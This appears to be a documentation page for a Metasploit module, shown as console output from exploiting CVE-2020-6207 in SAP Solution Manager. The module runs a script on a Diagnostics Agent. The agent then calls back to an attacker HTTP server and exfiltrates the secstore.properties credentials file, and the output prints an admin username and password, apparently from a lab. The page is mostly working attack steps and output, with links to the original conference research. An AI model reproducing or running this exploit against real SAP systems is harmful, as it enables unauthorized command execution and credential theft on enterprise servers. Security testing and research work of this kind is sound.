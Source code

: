 ```
AGENT => test_linux
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set SRVHOST 192.168.50.3
SRVHOST => 192.168.50.3
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[*] Enable EEM on agent: test_linux
[*] Using URL: http://192.168.50.3:8000/ginMlA2izrNi
[*] Start script: ginMlA2izrNi with payload for retrieving SolMan credentials file from agent: test_linux
[*] Received HTTP request from agent test_linux - 172.16.30.14
[+] Successfully retrieved file /usr/sap/DAA/SMDA98/SMDAgent/configuration/secstore.properties from agent: test_linux saved in: /Users/vladimir/.msf4/loot/20210327204344_SAP_TEST_172.16.30.14_smdagent.secstor_025841.txt
[+] Successfully encoded credentials for SolMan server: 172.16.30.46:50000 from agent: test_linux - 172.16.30.14
[+] Username: j2ee_admin
[+] Password: asdQWE123
[*] Stop script: ginMlA2izrNi on agent: test_linux
[*] Delete script: ginMlA2izrNi on agent: test_linux
[*] Server stopped.
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > creds
Credentials
===========

host          origin        service           public      private    realm  private_type  JtR Format
----          ------        -------           ------      -------    -----  ------------  ----------
172.16.30.46  172.16.30.46  50000/tcp (soap)  j2ee_admin  asdQWE123         Password

msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > services
Services
========

host          port   proto  name  state  info
----          ----   -----  ----  -----  ----
172.16.30.46  50000  tcp    soap  open   SAP Solution Manager

msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > vulns

Vulnerabilities
===============

Timestamp                Host          Name                                                                                               References
---------                ----          ----                                                                                               ----------
2021-03-27 17:49:37 UTC  172.16.30.46  SAP Solution Manager remote unauthorized OS commands execution                                     CVE-2020-6207,URL-https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf,URL-https://github.com/chipik/SAP_EEM_CVE-2020-6207
2021-03-27 17:49:41 UTC  172.16.30.14  Diagnostics Agent in Solution Manager, stores unencrypted credentials for Solution Manager server  CVE-2019-0307,URL-https://conference.hitb.org/hitblockdown002/materials/D2T1%20-%20SAP%20RCE%20-%20The%20Agent%20Who%20Spoke%20Too%20Much%20-%20Yvan%20Genuer.pdf

msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > loot

Loot
====

```

[1]: https://conference.hitb.org/hitblockdown002/materials/D2T1%20-%20SAP%20RCE%20-%20The%20Agent%20Who%20Spoke%20Too%20Much%20-%20Yvan%20Genuer.pdf
[2]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[3]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/